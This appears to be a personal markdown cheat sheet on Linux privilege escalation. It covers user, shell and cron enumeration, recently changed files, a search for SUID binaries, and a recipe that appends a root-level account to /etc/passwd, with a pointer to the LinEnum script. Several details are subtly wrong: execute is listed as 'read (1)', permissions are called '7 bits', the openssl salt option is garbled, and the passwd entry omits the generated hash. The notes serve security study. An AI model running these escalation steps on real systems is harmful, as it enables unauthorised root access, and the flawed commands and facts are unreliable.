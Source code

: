# Privilege Escalation

| Type | Description |
| ---- | ----------- |
| Horizontal | Different user, same permission level |
| Vertical | Higher pe    rmissions |

## Users
Any account in /etc/passwd in the 1000s will be a regular user account:
```sh
cat /etc/passwd
```

## Shells
Find available shells:
```sh
cat /etc/shells
```

## Cronjobs
```sh
cat /etc/crontab
```

## Recent file changes

Use ls in current directory:
`-A` - All files except `.` and `..`
`-r` - Reverse order while sorting
`t` - Sort by time

```
ls -Art | tail -n 1
```

Using recursive find
`find /dir/path -type f` - All files in dir
`printf "%T@ %p\n"` - Print a new line for each file where `%T@` is the float seconds. `%p` is the filename path
`sort -n` - sort on first column and treat the token as numerical
`cut -d' ' -f 2-` - split each line using a space and print all tokens at the second index. Note `-f2` will only print a single token

```sh
find /dir/path -type f -printf "%T@ %p\n" | sort -n | cut -d' ' -f 2- | tail -n 1
```

## Exploiting SUID Files:

## SUID Binary:
A typical permission consists of 7 bits `read (4)`, `write (2)`, `read (1)`. When the special bit is set to `4` it because `SUID` when the bit is `2` it becomes `SGID`
```sh
SUID:
rws-rwx-rwx

GUID:
rwx-rws-rwx
```

Finding SUID Binaries:
```sh
find / -perm -u=s -type f 2>/dev/null
```

Creating a new entry in `/etc/passwd`
```sh
openssl passwd -1 -last [salt][password]

echo "newusername:x:0:0:root:/root:/bin/bash" >> /etc/passwd

su newusername
```

## Linux Tooling

### LinEnum
Bash script to enumerate common linux privesc vulnerabilities
1. Download a copy:
[Download](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

2. Running:
```sh
sudo chmod +x LinEnum.sh
```

3. Understanditg the output
- Kernel information indicates if there is an exploit available in the kernel
- File output shows us the files anyone can write to
- SUID files - Special permissions given to file
- Crontab Contents are scheduled jobs

